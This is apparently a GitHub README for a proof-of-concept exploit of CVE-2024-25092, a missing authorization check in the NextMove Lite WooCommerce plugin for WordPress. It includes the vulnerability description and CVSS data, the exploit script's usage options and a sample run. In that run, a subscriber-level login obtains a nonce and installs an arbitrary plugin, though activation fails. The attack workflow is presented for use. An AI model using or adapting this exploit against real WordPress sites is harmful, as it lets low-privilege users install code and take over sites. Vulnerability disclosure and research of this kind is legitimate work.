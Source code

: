 # CVE-2024-25092
NextMove Lite &lt; 2.18.0 - Subscriber+ Arbitrary Plugin Installation/Activation


## Description:
The NextMove Lite – Thank You Page for WooCommerce plugin for WordPress is vulnerable to unauthorized modification of data due to a missing capability check on the 'xl_addon_installation' function in all versions up to, and including, 2.17.0. This makes it possible for authenticated attackers, with subscriber access and above, to install and activate arbitrary plugins.

```
Severity: medium
CVE ID: CVE-2024-25092
CVSS Score: 6.5
CVSS Metrics: CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:N/I:H/A:N
Plugin Slug: woo-thank-you-page-nextmove-lite
WPScan URL: https://www.wpscan.com/plugin/woo-thank-you-page-nextmove-lite
Reference URL: https://www.wordfence.com/threat-intel/vulnerabilities/id/0b04ab77-880b-423a-bba6-59822f0463bc?source=api-prod
```

How to use
---

```
usage: CVE-2024-25092.py [-h] --url URL --username USERNAME --password PASSWORD --slug SLUG --php PHP

NextMove Lite – <= 2.17.0 - Missing Authorization to Authenticated(Subscriber+) Plugin Activation Description CVE-2024-25092 - The NextMove Lite – Thank You Page for WooCommerce plugin
for WordPress is vulnerable to unauthorized modification of data due to a missing capability check on the 'xl_addon_installation' function in all versions up to, and including, 2.17.0.
This makes it possible for authenticated attackers, with subscriber access and above, to install and activate arbitrary plugins.

options:
  -h, --help           show this help message and exit
  --url URL            URL of the WordPress site
  --username USERNAME  WordPress username
  --password PASSWORD  WordPress password
  --slug SLUG          WordPress Plugin Slug
  --php PHP            WordPress Plugin PHP file
```

POC
---

Not been able to activate for some reason.

```
python3 CVE-2024-25092.py --url http://wordpress.lan --user user --password useruser1 --slug ai-assistant-by-10web --php ai-assistant-by-10web/ai-assistant-by-10web.php
Logged in successfully.
Getting REST API Nonce!
Nonce Found: 905413f8f8
Installing Plugin
Downloading installation package from https://downloads.wordpress.org/plugin/ai-assistant-by-10web.1.0.19.zip
Unpacking the package
Installing the plugin
Plugin installed successfully.
{"success":false,"data":"Failed to activate plugin."}
```

